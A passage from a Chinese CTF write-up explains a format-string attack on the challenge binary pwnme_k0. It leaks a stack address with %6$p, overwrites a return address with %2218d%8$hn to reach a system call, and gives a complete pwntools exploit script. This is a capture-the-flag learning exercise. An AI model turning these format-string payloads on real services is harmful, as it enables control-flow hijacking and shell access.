 %6$p实际上是泄露第6+1位的地址

最后就是往这个地址上写需要的地址，因为只有最后的三位不一样，所以只要改最后三位就可以了。

	r.sendline("%2218d%8$hn")

（这里在改的时候发现如果是改到sub_4008A6函数开头的位置时会发生错误，所以就直接改到了执行system的位置）

2218是8AAH的十进制。

完整的exp

	from pwn import *

	context.terminal = ['terminator','-x','sh','-c']

	r=process('./pwnme_k0')

	#pwnlib.gdb.attach(r)

	r.recvuntil('Input your username(max lenth:20): n')

	r.sendline('aaaa')

	r.recv()

	r.sendline('%6$p')

	r.recvuntil(">")

	r.sendline('1')

	r.recvuntil("0x")

	stack_addr=int(r.recvline().strip(),16)-0x38

	r.recvuntil(">")

	r.sendline('2')

	r.recv()

	r.sendline(p64(stack_addr))

	r.recv()

	r.sendline("%2218d%8$hn")

	r.recvuntil(">")

	r.sendline('1')

	r.interactive()

	
参考链接：<https://www.anquanke.com/post/id/85785>

<https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example/#hijack-got>
